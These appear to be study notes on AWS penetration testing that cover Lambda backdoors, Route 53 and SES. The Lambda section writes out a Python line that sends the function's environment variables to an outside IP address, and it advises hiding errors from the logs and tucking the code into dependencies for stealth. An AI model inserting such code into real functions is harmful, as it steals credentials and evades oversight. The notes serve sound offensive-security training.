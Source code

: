    - note that not all Lambda functions have a resource policy
- default execution timeout for function is three seconds

## Lambda Malicious Code

- Python `requests`library not one of the default Lambda libraries, but this can be imported via the `botocore` package
    - `from botocore.vendored import requests`
        
        ```python
        from botocore.vendored import requests
        requests.post('[http://1.1.1.1](http://1.1.1.1/)', json=os.environ.copy(), timeout=0.01)
        
        ```
        
- ensure the malicious code is wrapped in a `try` and `except` to avoid errors from showing up in the logs
- be aware of the Lambda function’s timeout
- it is much better and stealthier to insert malicious code into the function’s used dependencies, rather than to the function’s code itself
    - export Lambda function to .zip file, and then reupload it with modified dependencie
    

# Chapter 14: Targeting Other Services

- exploitation of Route 53, Simple Email Service (SES), CloudFOrmation, and Elastic Container Registry (ECR)

## Route 53

- route 53 is a scalable DNS/domain management service
- good to use for recon
    - allows association of IPs and host names,
    - can discover domains and sub-domains
- other than for recon, Route53 is not useful for pentesters (too disruptive)

### How Malicious Attackers Exploit Route53

- change DNS records to point to their web server
- route DNS queries between different networks and VPC
    - can provide insight into other networks not hosted within AWS, or can give insight into other services within VPCs

## Simple Email Service (SES)

- good to use for phishing
- if a policy is attached to an SES identity, then it has restrictions
    - permissive SES identities do not have any policies attached to them
    - `aws ses list-identity-policies --identity test@test.com`
- to get a policy, you can use `aws ses get-identity-policies --identity <IDENTITY> --policy-name <POLICY>`
    - example output:
    
